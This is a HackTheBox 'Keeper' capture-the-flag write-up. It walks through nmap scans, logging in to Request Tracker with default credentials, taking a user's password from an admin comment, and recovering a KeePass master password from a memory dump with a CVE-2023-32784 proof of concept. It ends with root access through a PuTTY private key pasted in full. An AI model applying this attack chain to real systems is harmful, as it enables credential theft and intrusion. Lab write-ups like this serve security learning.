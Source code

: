 ```yaml
---
title: HackTheBox - Keeper
date: 2023-11-19 18:36:07
tags: [htb, ctf, writeup, putty, keepass]
category: writeups
description: htb keeper writeup
---
```


# Tools

- netcat
- putty
- keepass-password-dumper

<br>

## Getting User

### Nmap


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Keeper]
└─$ sudo nmap -sS -oA nmap/initial_scan 10.129.59.247    
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-19 06:50 EST
Nmap scan report for 10.129.59.247
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.98 seconds
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Keeper]
└─$ sudo nmap -sC -sV -p 22,80 -oA nmap/default_script_scan 10.129.59.247
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-19 06:51 EST
Nmap scan report for 10.129.59.247
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.62 seconds
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


<br>

### Foothold

Visiting http://10.129.59.247/ theres a hyperlink saying “*To raise an IT support ticket, please visit tickets.keeper.htb/rt/*”
Add vhosts to *hosts* file


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Keeper]
└─$ echo "10.129.59.247 keeper.htb tickets.keeper.htb" | sudo tee -a /etc/hosts           
[sudo] password for kali: 
10.129.59.247 keeper.htb tickets.keeper.htb
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


*tickets.keeper.htb/rt/* takes us to a login page of Request Tracker app (version RT 4.4.4+dfsg-2ubuntu1)

I look up *rt 4.4.4+dfsg-2ubuntu1* & I find that admin has a default password which is `root:password`
We were able to login using the defualt credentials.

Going to *Admin > Users > Select* and selecting *lnorgaard* user we find the following comment

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
New user. Initial password set to Welcome2023!
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We are able to use *lnorgaard*'s credentials to get foothold


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Keeper/files]
└─$ ssh lnorgaard@keeper.htb
lnorgaard@keeper.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
lnorgaard@keeper:~$ cat user.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



<br>

## Getting Root

### Information Gathering

Start a python http server to download *RT30000.zip* to your machine


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Keeper/files]
└─$ wget http://keeper.htb:3211/RT30000.zip
--2023-11-19 07:55:12--  http://keeper.htb:3211/RT30000.zip
Resolving keeper.htb (keeper.htb)... 10.129.59.247
Connecting to keeper.htb (keeper.htb)|10.129.59.247|:3211... connected.
HTTP request sent, awaiting response... 200 OK
Length: 87391651 (83M) [application/zip]
Saving to: ‘RT30000.zip’

RT30000.zip                                        100%[================================================================================================================>]  83.34M  3.06MB/s    in 46s     

2023-11-19 07:55:58 (1.82 MB/s) - ‘RT30000.zip’ saved [87391651/87391651]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We find a KeePass dump file and db upon extracting the content of the zip file


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Keeper/files]
└─$ unzip RT30000.zip                 
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx          
                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/HTB/Keeper/files]
└─$ ls
KeePassDumpFull.dmp  passcodes.kdbx  RT30000.zip
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


I found a PoC to dump master password from KeePass's memory https://github.com/vdohney/keepass-password-dumper (CVE-2023-32784)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Keeper/files/keepass-password-dumper]
└─$ git clone https://github.com/vdohney/keepass-password-dumper   

┌──(kali㉿kali)-[~/HTB/Keeper/files/keepass-password-dumper]
└─$ cd keepass-password-dumper     

┌──(kali㉿kali)-[~/HTB/Keeper/files/keepass-password-dumper]
└─$ dotnet run ../KeePassDumpFull.dmp   
...................... SNIPPED ............................
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M, 
3.:     d, 
4.:     g, 
5.:     r, 
6.:     ø, 
7.:     d, 
8.:      , 
9.:     m, 
10.:    e, 
11.:    d, 
12.:     , 
13.:    f, 
14.:    l, 
15.:    ø, 
16.:    d, 
17.:    e, 
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


The PoC couldn't find the first two characters.
Upon searching `dgrød med fløde` on the web, I find the *Rødgrød med fløde*, which could be the password.

Installed keepassx


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo apt-get install keepassx
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Open the **passcodes.kdbx** and enter the password `rødgrød med fløde`
We get it and we find there's a folder called *Network* which contains root's PuTTY RSA key

<br>

### Privilege Escalation

I'm going to install putty to use the key


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Keeper/files]
└─$ sudo apt install putty  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Copy RSA to a file and use PuTTY to connect to the server


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Keeper/files]
└─$ echo '''PuTTY-User-Key-File-3: ssh-rsa                                                
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0''' > rsa 

┌──(kali㉿kali)-[~/HTB/Keeper/files]
└─$ putty root@keeper.htb -i rsa          

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


This will open up a putty terminal


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@keeper:~# ls
root.txt  RT30000.zip  SQL
root@keeper:~# cat root.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


